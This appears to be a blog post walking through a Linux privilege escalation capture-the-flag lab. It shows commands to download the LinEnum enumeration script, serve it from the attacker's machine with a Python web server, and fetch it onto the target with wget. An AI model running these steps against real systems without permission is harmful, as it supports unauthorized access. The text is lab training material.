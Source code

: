 ```yaml
---
title: "Linux Privesc"
date: 2020-12-25T01:02:30-06:00
draft: false
author: "Golgothus"
description: "Test description to show up on the posts page."
---
```


# Linux Priv Escalation

Start by downloading the LinEnum script through either of the following methods:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Visit the website and pull the file from [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

> It is helpful to at least view / review the material in the bash script to try and have an idea as to what actions are being performed

## Task 4

### Task 4 - Flag1

Ssh into the box given the credentials on the site

### Task 4 - Flag2 & Flag3

What is the target's host name?

For this, it would be helpful to go ahead and pull over the LinEnum script. To do this, I used the simple web client from Python, you can also just copy and paste the information into a file, then chmod +x \<file>

#### Simple Web Client

Make sure to run this from the directory your enum script is located

```bash
python -m SimpleHTTPServer 8000
```

Open another terminal / session, ssh into the vulnerable system.

Run:

```bash
wget <local ip address>:<port>/LinEnum.sh
```

Once the script is on the vulnerable system we need to chmod+x the file to make it executable

